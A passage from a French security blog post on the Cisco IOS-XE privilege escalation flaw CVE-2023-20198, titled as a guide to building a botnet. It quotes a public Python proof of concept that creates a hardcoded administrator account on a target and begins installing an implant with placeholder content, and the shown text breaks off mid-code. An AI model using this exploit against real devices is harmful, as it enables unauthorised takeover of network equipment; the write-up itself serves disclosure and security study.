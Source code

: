 ```yaml
---
title: "CVE-2023-20198 Cisco IOS-XE ZeroDay - Ou comment créer son réseau de botnet ?"
description: "Dans l'article 'Cisco CVE-2023-20198 - Créer son réseau de botnet', publié le 20 octobre 2023, Trackflaw explore une faille critique d’élevation de privilèges dans Cisco IOS-XE. Notée 10 sur l'échelle CVSS, cette vulnérabilité permet à un attaquant non authentifié de créer un compte avec les privilèges les plus élevés. Trackflaw détaille les étapes de l'exploitation, allant de la création d'un compte administrateur à l'installation d'un implant, en passant par le redémarrage du service et l'effacement des traces. L'auteur discute aussi de la manière de localiser les hôtes vulnérables et des mesures de protection recommandées par Cisco, en l'absence de correctif. L'article inclut des références fiables et une animation résumant l'exploitation."
date: 2023-10-20T10:00:00+01:00
draft: false
images: [/images/cisco-cve-2023-20198/cisco.png]
featuredImage: "/images/cisco-cve-2023-20198/cisco.png"
featuredImagePreview: "/images/cisco-cve-2023-20198/cisco.png"
tags: ["Botnet", "Cisco", "Pentest"]
---
```


# 🧟 Cisco CVE-2023-20198 - Ou comment créer son réseau de botnet ?

## Introduction

Le 16 octobre 2023, Cisco a communiqué sur une vulnérabilité critique d'élevation de privilèges via l'interface Web sous l'identifiant CVE-2023-20198 au score CVSS de 10.

Cisco affirme que la vulnérabilité est largement exploitée. La vulnérabilité permet à un attaquant non authentifié de créer un compte aux privilèges maximales. Il n'existe pas de correctif pour cette vulnérabilité pour le moment.

## Détails de l'exploitation

L'exploitation est relativement simple. Il n'existe pas de PoC clef en main pour cette vulnérabilité. Cependant, un exploit est disponible sur GitHub à l'heure où cet article est rédigé (vendredi 20 octobre 2023 à 12h00). Lien : https://github.com/Tounsi007/CVE-2023-20198

Contenu du PoC :

```py
import requests

# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)

if response.status_code == 200:
    print(f"Successfully created local user account: {username}")

# Exploit CVE-2021-1435 to install the implant
install_url = f"https://target.com/webui/cisco_service.conf"
config_content = "<insert implant configuration content here>"

config_payload = {
```